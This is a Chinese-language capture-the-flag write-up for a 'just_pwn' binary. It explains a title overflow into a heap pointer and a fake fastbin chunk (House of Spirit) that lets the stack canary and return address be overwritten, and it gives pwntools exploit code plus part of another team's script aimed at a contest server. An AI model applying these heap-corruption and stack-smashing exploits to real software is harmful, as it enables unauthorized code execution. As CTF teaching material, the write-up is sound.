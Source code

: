|Item|Value|
|:-----:|:-----:|
|buf    |大小0x20|
|.....  |........|
|canary |大小0x8|
|ebp    |大小0x8|
|返回地址|大小0x8|
|choice2|welecome的变量,始终为0，大小0x8，chunk对齐用|
|len|welecome的变量,值为输入值，大小0x8|

在leavemessage中会将你的输入的信息记录到一个结构体中：
```
struct MESSAGE{
    char title[32]; //message的标题
    char *content; //malloc分配的地址
};
```
malloc分配的content的大小即为len的值，`read`至`buf`后，再`memcpy`至`content`，这里的`Enter the content of your message:`不会引发溢出。
但是之后的`Enter the title of your message:`可以导致输入的`title`溢出到`content`指针。
所以情况很明显了，在输入`content`的时候构造一个伪chunk，这个伪chunk理论大小是从栈中的`buf`到`len`之间的大小。len的值是在welcome中输入的0x20，满足下一个chunk大于2 * `SIZE_SZ`同时小于`av->system_mem`的要求（不懂的话可以参照[这篇文章](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/fastbin_attack/))。    
所以构造伪chunk流程是这样的：在`welcome`中输入`len`为0x20(合适即可)，然后`buf`中构造fast chunk：`p64(0) + p64(0x51)`，然后在`title`中溢出至`content`指针，使之指向buf(此时的buf已经构造好了)。    
接下来我们可以看到将构造的伪chunk加入fastbin中的机会，程序会问你`Would you like to change? y to confirm.`，选择`y`便会free掉`content`所指向的内存（这里是伪chunk），然后会再让你输入`content`。所以我们选择放弃pushing并且修改，程序会`free(content)`使`buf`到`len`的区域加入到fastbin中，然后malloc相同大小的内存，便会将之前free掉的内存再分配给content。这次根据程序的可输入的大小最大可以到0x80了（`if(length < 0 || length > 0x80)`）。我们便可以从buf覆盖canary，和返回地址（根据之前获得的buybuybuy的地址计算出getflag）的地址。然后就可以getshell了
具体代码如下：
```python
addr_getflag = addr_buybuybuy +0x122C - 0x176F
def setHOSandGetShell(ebp, canary, addr):
    just_pwn.sendline("1");
    just_pwn.sendlineafter("long is your message?\n","32")
    just_pwn.sendlineafter("content of your message:\n",p64(0) + p64(0x51));
    just_pwn.sendlineafter("title of your message:\n",32*'a'+p64(ebp-0x60+0xc0));
    just_pwn.sendlineafter("pushing? y to confirm.\n","n");
    just_pwn.sendlineafter("like to change? y to confirm.\n","y");
    just_pwn.sendlineafter("long is your message?\n","64");
    just_pwn.sendlineafter("content of your message:\n",'a'*3*8+p64(canary)+'a'*3*8+p64(addr));
just_pwn.interactive()
```
我的糟糕的wp在src文件夹下
以下是ROIS队超级短的WP：
(注：他们本地的just_pwn是patch过的，然后控制程序流的方式是第二关所讲的栈溢出)
```python
from pwn import *
context.log_level = 'debug'

p = process('./just_pwn')
q = remote('118.25.148.66','2333')

p.sendlineafter('3.Exit\n','1')
p.recvline()
k = p.recvline()

q.sendlineafter('3.Exit\n','1')
q.recvline()
l = q.recvline()
```